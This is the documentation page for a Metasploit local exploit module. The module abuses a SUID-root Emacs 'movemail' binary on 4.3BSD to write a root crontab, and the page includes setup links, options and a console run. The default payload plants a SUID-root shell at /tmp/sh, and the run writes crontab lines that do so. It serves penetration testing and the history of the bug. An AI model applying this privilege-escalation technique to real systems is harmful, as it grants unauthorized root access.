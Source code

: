 ## Vulnerable Application

### Description

This module exploits a SUID installation of the Emacs `movemail` utility
to run a command as root by writing to 4.3BSD's `/usr/lib/crontab.local`.

The vulnerability is documented in Cliff Stoll's book *The Cuckoo's Egg*.

### Setup

A Docker environment for 4.3BSD on VAX is available at
<https://github.com/wvu/ye-olde-bsd>.

For manual setup, please follow the Computer History Wiki's
[guide](http://gunkies.org/wiki/Installing_4.3_BSD_on_SIMH) or Allen
Garvin's [guide](http://plover.net/~agarvin/4.3bsd-on-simh.html) if
you're using [Quasijarus](http://gunkies.org/wiki/4.3_BSD_Quasijarus).

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This uses `/usr/lib/crontab.local` to execute code.

## Options

### MOVEMAIL

Set this to the absolute path to the SUID-root `movemail` executable.

### CMD

If your payload is `cmd/unix/generic` (suggested default), set this to
the command you want to run as root. The provided default will create a
SUID-root shell at `/tmp/sh`.

## Scenarios

### 4.3BSD

```
msf5 > use exploit/unix/local/emacs_movemail
msf5 exploit(unix/local/emacs_movemail) > options

Module options (exploit/unix/local/emacs_movemail):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   MOVEMAIL  /etc/movemail    yes       Path to movemail
   SESSION                    yes       The session to run this module on.


Payload options (cmd/unix/generic):

   Name  Current Setting                       Required  Description
   ----  ---------------                       --------  -----------
   CMD   cp /bin/sh /tmp && chmod u+s /tmp/sh  yes       The command string to execute


Exploit target:

   Id  Name
   --  ----
   0   /usr/lib/crontab.local


msf5 exploit(unix/local/emacs_movemail) > set session -1
session => -1
msf5 exploit(unix/local/emacs_movemail) > run

[*] Setting a sane $PATH: /bin:/usr/bin:/usr/ucb:/etc
[-] Current shell is unknown
[*] $PATH is /bin:/usr/bin:/usr/ucb:/etc
[+] SUID-root /etc/movemail found
[*] Preparing crontab with payload
* * * * * root cp /bin/sh /tmp && chmod u+s /tmp/sh
* * * * * root rm -f /usr/lib/crontab.local
[*] Creating writable /usr/lib/crontab.local
[+] Writing crontab to /usr/lib/crontab.local
[!] Please wait at least one minute for effect
[*] Exploit completed, but no session was created.
msf5 exploit(unix/local/emacs_movemail) >
```
